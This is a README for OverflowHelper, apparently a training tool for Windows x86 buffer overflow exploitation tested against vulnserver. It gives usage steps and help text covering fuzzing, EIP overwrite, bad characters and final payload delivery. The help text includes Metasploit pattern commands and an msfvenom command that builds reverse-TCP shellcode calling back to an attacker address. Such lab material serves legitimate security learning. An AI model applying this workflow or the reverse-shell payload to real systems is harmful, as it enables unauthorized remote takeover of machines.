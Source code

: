 # OverflowHelper
OverflowHelper aids in Buffer Overflow development on Windows x86 architecture. This script was tested on vulnserver on 32-bit a Windows 7 machine.

## Usage:

Clone repository:
```
git clone https://github.com/rhuss623/OverflowHelper.git
```

Change permissions:
```
cd OverflowHelper
chmod u+x overflow_helper.py
```

Execute script with arguments (described in "Help")
```
python overflow_helper.py
```
Further instructions are enumerated in the "help" instructions (provided below). 

Note that several sections of the script require hard-coded revision, including:
The subtraction of bad characters frrom the badchars payload in program #4 and the final shell payload in program #6 

## Help:

Here follows the "help" instructions, accessible via `-h`


Buffer Overflow Helper

positional arguments:
  host              Remote target host, e.g. 10.10.1.14
  port              Remote target port, e.g. 9999
  function          Function used in buffer overflow attempt, e.g. TRUN
  program           Enter a number, 1-6, as argument: 
                    
                    1. Fuzzing 
                    2. Identifying Offset 
                    	REQUIRES -pattern 
                    3. Overwriting EIP 
                    	REQUIRES -offset
                    4. Identify Bad Characters 
                    	REQUIRES -offset
                    5. Return Address 
                    	REQUIRES -offset && -ret
                    6. Final Payload 
                    	REQUIRES -offset && -ret && -pay
                    
                    ********************************
                    Suggested additional resources:
                    
                    Pattern creation (Identifying offset):
                    	pattern_create.rb
                    	pattern_offset.rb
                    
                    Locating return address:
                    	mona.py
                    	nasm_shell.rb
                    
                    Creating payload:
                    	msfvenom 
                    ********************************
                    
                    Happy Hacking you Hackney Hip-Swaying Hokey Pokers :)
                    

optional arguments:
  -h, --help        show this help message and exit
  -pattern PATTERN  Use w/ PROGRAM 2
                    
                    Pattern created using pattern-create.rb
                    
                    On kali, this is the output from: 
                    /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l <number from fuzzing phase> 
                    
                    To identify the offset, enter the characters in EIP into:
                    
                    /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -l <number> -q <EIP characters>
                    
  -offset OFFSET    Use w/ PROGRAMS 3, 4, 5, and 6
                    
                    Offset value: e.g. 2020
                    
  -ret RET          Use w/ PROGRAMS 5 and 6
                    
                    Enter return address as it will be entered in EIP
                    
                    e.g.,for return address 625011af, one might enter \\xaf\\x11\\x50\\x62
                    
  -pay PAY          Use w/ PROGRAM 6
                    
                    Enter shellcode
                    
                    e.g. Output from command:
                    
                    msfvenom -p windows/shell_reverse_tcp LHOST=10.11.0.147 LPORT=4444 EXITFUNC=thread -f c -a x86 -b "<INSERT BAD CHARS HERE e.g. null byte: \x00>"
                    
  -nops NOPS        Use w/ PROGRAM 6
                    
                    Enter number of nops preceding payload, e.g. 32
